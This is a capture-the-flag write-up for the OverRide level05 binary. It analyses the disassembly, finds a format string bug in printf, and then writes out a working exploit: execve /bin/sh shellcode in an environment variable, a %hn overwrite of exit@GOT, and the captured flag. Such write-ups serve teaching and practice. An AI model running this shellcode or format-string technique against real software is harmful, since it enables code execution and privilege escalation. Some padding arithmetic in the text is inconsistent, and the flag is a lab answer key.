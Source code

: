 # **Level05**

## **Binary Analysis**

The program reads user input of up to 100 characters, converts uppercase letters to lowercase using XOR (`^ 0x20`), prints the modified string, and exits using `exit(0)`.

```nasm
; Stack Setup
0x08048444 <+0>:     push   %ebp
0x08048445 <+1>:     mov    %esp,%ebp
0x0804844c <+8>:     sub    $0x90,%esp      ; Allocates 144 bytes

; fgets call
0x0804846e <+42>:    lea    0x28(%esp),%eax  ; Buffer at esp+40
0x08048472 <+46>:    mov    %eax,(%esp)
0x08048466 <+34>:    movl   $0x64,0x4(%esp)  ; Size = 100 bytes
0x08048475 <+49>:    call   fgets@plt

; Check character range
0x08048495 <+81>:    cmp    $0x40,%al       ; Compare with '@'
0x08048497 <+83>:    jle    0x80484cb       ; If <= '@', skip
0x080484a7 <+99>:    cmp    $0x5a,%al       ; Compare with 'Z'
0x080484a9 <+101>:   jg     0x80484cb       ; If > 'Z', skip

; XOR operation
0x080484bb <+119>:   xor    $0x20,%edx      ; XOR with 0x20
0x080484c9 <+133>:   mov    %dl,(%eax)      ; Store result

; Format string vulnerability
0x08048507 <+195>:   call   printf@plt      ; Direct printf of buffer

```

## **Vulnerability**

The program has a **format string vulnerability** because it prints user input using `printf` without format specifier safety. This can allow an attacker to **read or write arbitrary memory**.

**Example Exploit:**

```bash
level05@OverRide:~$ ./level05
AAAA%x.%x.%x.%x
aaaa64.f7fcfac0.f7ec3af9.ffffd6bf
level05@OverRide:~$

```

## **Exploit**

The goal is to **overwrite the exit function's address in the GOT** with the address of our shellcode.

**Step 1: Locate exit@GOT Address**

```bash
(gdb) disas 0x8048370
   0x08048370 <+0>: jmp    *0x80497e0
(gdb)

```

**Step 2: Locate Shellcode in Memory**

```bash
(gdb) x/200s environ
...
0xffffdbb4: "PAYLOAD=\220\220\2 ...."
0xffffdc7c: \220\220\2 .... ; nops
0xffffdf9c: /shh/bin\211\343\061\311̀"

```

**Step 3: Split Address for Overwrite**

Since we can't write all 4 bytes at once, we split it into two writes using `%hn` (writes 2 bytes at a time):

```bash
Higher bytes: 0xffff
Lower bytes:  0xdc7c
```

- **Lower 2 bytes**: `0xdc7c` (decimal 56436) → Goes into `0x080497e0`
- **Upper 2 bytes**: `0xffff` (decimal 9091) → Goes into `0x080497e2`

**Step 4: Calculate Padding**

```bash
First write (0xdc7c):
0xdc7c = 56444
56444 - 8 = 56436    # Subtract 8 for the two addresses ()

Second write (0xffff - 0xdc7c):
0xffff - 0xdc7c = 0x2383 = 9091

```

**Step 5: Identify Format String Offset**

```bash
level05@OverRide:~$ ./level05
AAAA%1$x.%2$x.%3$x.%4$x.%5$x.%6$x.%7$x.%8$x.%9$x.%10$x.%11$x.%12$x
aaaa64.f7fcfac0.f7ec3af9.ffffd2af.ffffd2ae.0.ffffffff.ffffd334.f7fdb000.61616161.78243125.2432252e
																									                        ^
																									                        |
																									           10th position (61616161 = "aaaa")
																									
```

**Step 6: Execute Exploitg**

```bash
export PAYLOAD=$(python -c 'print "\x90" * 1000 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')

```

```bash
(python -c 'print "\xe0\x97\x04\x08"+"\xe2\x97\x04\x08"+"%56436c"+"%10$hn"+"%9091c"+"%11$hn"'; cat -) | ./level05

```

**Step 7: Get the Flag**

```bash
whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```

## **Flag**

```bash
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```